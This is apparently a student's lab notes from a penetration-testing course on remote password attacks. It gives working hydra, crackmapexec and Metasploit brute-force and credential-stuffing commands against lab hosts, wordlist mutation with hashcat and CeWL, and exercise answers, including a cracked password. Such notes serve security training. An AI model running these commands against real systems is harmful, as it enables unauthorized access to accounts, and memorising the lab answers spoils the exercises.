 # ☄️ Remote Password Attacks

## Network Services

{% content-ref url="../../../interacting-with-protocols-and-tools/tools/crackmapexec.md" %}
[crackmapexec.md](../../../interacting-with-protocols-and-tools/tools/crackmapexec.md)
{% endcontent-ref %}

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

{% content-ref url="../../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/ssh.md" %}
[ssh.md](../../../interacting-with-protocols-and-tools/protocols/ssh.md)
{% endcontent-ref %}

```shell-session
 hydra -L user.list -P password.list ssh://10.129.42.197
```

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/rdp.md" %}
[rdp.md](../../../interacting-with-protocols-and-tools/protocols/rdp.md)
{% endcontent-ref %}

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

Connect through xfreerdp:

```shell-session
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/smb.md" %}
[smb.md](../../../interacting-with-protocols-and-tools/protocols/smb.md)
{% endcontent-ref %}

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

we may also get the following error describing that the server has sent an invalid reply.

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run
```

## Password Mutations

Considering that many people want to keep their passwords as simple as possible despite password policies, we can create rules for generating weak passwords.

We can use a very powerful tool called [Hashcat](https://hashcat.net/hashcat/) to combine lists of potential names and labels with specific mutation rules to create custom wordlists.

```shell-session
ElFelixi0@htb[/htb]$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
ElFelixi0@htb[/htb]$ cat mut_password.list

password
Password
passw0rd
Passw0rd
p@ssword
P@ssword
P@ssw0rd
password!
<SNIP>
```

We can also create a wordlist based on potential words from the company's website and save them in a separate list with [CeWL](https://github.com/digininja/CeWL)

```shell-session
ElFelixi0@htb[/htb]$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

_**Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.**_

```
hydra -l sam -P batman.txt ftp://10.129.194.9
```

<figure><img src="../../../.gitbook/assets/image (1453).png" alt=""><figcaption><p>B@tm@n2022!</p></figcaption></figure>

Here is a list of known default credentials [DefaultCreds-Cheat-Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).

Hydra syntax to try credential stuffing ->

```shell-session
hydra -C <user_pass.list> <protocol>://<IP>
hydra -C user_pass.list ssh://10.129.42.197
```

_**Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer.**_ (Format: :)

I first get the list ->

```
wget https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv
```

Then i adapt the content of the list to mysql ->

```
grep -i 'mysql' DefaultCreds-Cheat-Sheet.csv > cred.list
```

Then i manually change the list to fit to the template used for password username:password ->

```
admin@example.com:admin
root:<blank>
root:root
superdba:admin
scrutremote:admin
```

then i forward the ssh connection ->

```
ssh -L 4444:localhost:3306 sam@10.129.194.9
```

then i open new tab and launch the following with my msql list ->

```
hydra -C mysqldflt.txt mysql://localhost:4444
```

<figure><img src="../../../.gitbook/assets/image (1454).png" alt=""><figcaption></figcaption></figure>
